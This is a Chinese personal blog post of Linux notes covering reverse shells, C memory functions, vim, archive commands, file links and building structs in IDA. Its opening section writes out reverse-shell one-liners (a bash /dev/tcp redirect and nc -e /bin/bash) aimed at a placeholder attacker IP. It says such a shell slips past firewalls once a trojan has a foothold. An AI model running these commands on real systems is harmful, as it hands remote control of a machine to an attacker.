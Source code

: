```yaml
---
layout: post
title: Linux下的一些基础知识小记
category: system/unsorted
date: 2023-9-18 12:00:00
---
```

Linux
<!-- more -->
[toc]


# 反弹shell

若要从主机`A`接收一个反弹的`shell`，首先在主机上监听某个端口：

```bash
nc -l 8080
```

通过在主机`B`上执行如下命令，即可使得主机`B`主动发起一个连接到主机`A`。

```bash
bash -i >& /dev/tcp/主机A的IP/主机A监听的端口 0>&1
# 或者nc -e /bin/bash 计算机A的IP 计算机A监听的端口
# 但某些版本的nc不支持-e参数
```

“反弹”`shell`的意思就是，这个`shell`是由主机`B`主动发起连接让主机`A`使用主机`B`的`shell`的，因此不会被防火墙等阻拦。若我们能通过木马等方式控制某台主机并执行一次命令，那么我们即可反弹一个`shell`。

# 常见函数

## setvbuf函数

```c
setvbuf(steam, buf, mode, size);
// setvbuf可以设置文件流的缓冲模式。
// stream表示设置哪一个流，例如stdin、stdout
// buf表示自定义缓冲区的位置，设置为0表示不要自定义缓冲区而是C语言分配
// mode分为三种，全缓冲_IOFBF为0， _IOLBF为1，_IONBF为2
// size表示缓冲区大小，若缓冲区是C语言分配，则该值设置为缓冲区大小。若缓冲区是自定义的，该值需要与自定义缓冲区相匹配。
// setvbuf(stdin, 0, 2, 0);表示将stdin设置为无缓冲模式
```

## calloc函数

```c
calloc(num_elements, element_size);
// calloc函数可以动态分配内存，且分配的区域会自动初始化为0
// calloc函数不会申请到tcache中的内存空间
// num_elemtents表示要分配的元素数量
// element_size表示每个元素的大小（单位是字节）
// 实际申请的内存空间为num_elements * element_size（不加header）
```

## realloc函数

```c
realloc(ptr, new_size);
// realloc函数可以重新调整之前分配的内存块的大小。
// 若ptr为0且new_size > 0，则相当于malloc(new_size)
// 若new_size为0，则会将ptr进行free
// 若new_size小于之前的size，相当于edit
// 若new_size大于之前的size，会malloc新内存，将以前内容复制到新内存，将以前内存free
```

# Linux查找文件

```bash
find /etc -name "php.ini"
```

# VIM操作

回到顶部

```bash
gg
```

删除当前以下所有

```bash
dG
```

查找内容

```bash
/ # 唤起查找，输入完成后回车
n # 前向查找
N # 反向查找
```

# vmware共享文件夹

我现在设置到了主机桌面的`vmware_share`

在`ubuntu`下是在`/mnt/hgfs/vmware_share`

# ubuntu解压缩

```bash
tar –xvf file.tar //解压 tar包

tar -xzvf file.tar.gz //解压tar.gz

tar -xjvf file.tar.bz2   //解压 tar.bz2

tar –xZvf file.tar.Z   //解压tar.Z

unrar e file.rar //解压rar

unzip file.zip //解压zip

总结：

  (1)、*.tar 用 tar –xvf 解压
  (2)、*.gz 用 gzip -d或者gunzip 解压
  (3)、*.tar.gz和*.tgz 用 tar –xzf 解压
  (4)、*.bz2 用 bzip2 -d或者用bunzip2 解压
  (5)、*.tar.bz2用tar –xjf 解压
  (6)、*.Z 用 uncompress 解压
  (7)、*.tar.Z 用tar –xZf 解压
  (8)、*.rar 用 unrar e解压
  (9)、*.zip 用 unzip 解压
```

# 软链接和硬链接

## 软链接

- 可以理解为一个“快捷方式”。
- 原始文件被删除后，软链接将“悬空”，指向不存在的文件。
- 软链接可以链接到目录。
- 软链接不会存储文件内容，而是仅存储原文件的路径。

## 硬链接

- 可以理解为同一个文件的不同名称。
- 原始文件被删除后，硬链接仍然可以访问该文件（你可以把硬链接和原始文件名同等地当作文件的两个名称）。
- 不能链接到目录

```bash
# 创建硬链接
ln source_file hard_link
# 创建软链接
ln -s source_file soft _link
```

# ida创建结构体

在逆向尤其是二进制程序分析时，我们常常会遇到一些结构体，结构体里面还会嵌套一些结构体。有的师傅喜欢人肉反编译，但是这里还是记录一下`ida`如何进行结构体的创建。这里分为两种，一种是`ida`自带的结构体创建和编写C语言代码创建。

**无论使用哪种方式创建了结构体，只需要在`ida`反编译的代码中选中结构体指针变量并右键，点击`conver to struct*`然后选中自己创建的结构体即可让ida应用这种结构体方式。**

## ida自带结构体创建

使用`shift+f9`打开结构体菜单，如图所示：![](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131305716.png)

此时按下键盘上的`insert`键，输入要创建的结构体名称，如图所示：

![image-20231113130817035](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131308083.png)

就可以完成空结构体的创建，如图所示：

![image-20231113130844706](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131308741.png)

现在我们将光标移动到`ends`的一行，按下键盘上的`d`键，即可添加一个结构体的成员变量：

![image-20231113130945752](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131309786.png)

鼠标移动到默认创建的名称`field_0`上按下键盘上的`n`键可以更改名称，而再次按下键盘上的`d`键可以更改变量的数据类型，如图所示就创建好了一个带有一个8字节大小的叫做`name`的成员变量的结构体：

![image-20231113131104436](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131311471.png)

## 编写C语言代码创建结构体

假如你觉得上面的方法过于复杂，或者结构体成员变量较多，那么你可以采取直接编写C语言代码的方式来创建结构体。在`ida`中按下`shift+f1`，如图所示：

![image-20231113131420860](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131314895.png)

我们按下键盘上的`insert`键，即可弹出输入结构体的C语言代码的输入框：

![image-20231113131532298](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131315342.png)

输入完成后按下`ok`即可完成结构体的创建。无论使用了哪种方式创建结构体，都可以在结构体指针上使用`convert to strcu*`来应用结构体。

## 效果演示

如图所示，应用结构体后即可使用结构体的方式在反编译后的代码中显示。

![image-20231113131752853](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311131317899.png)
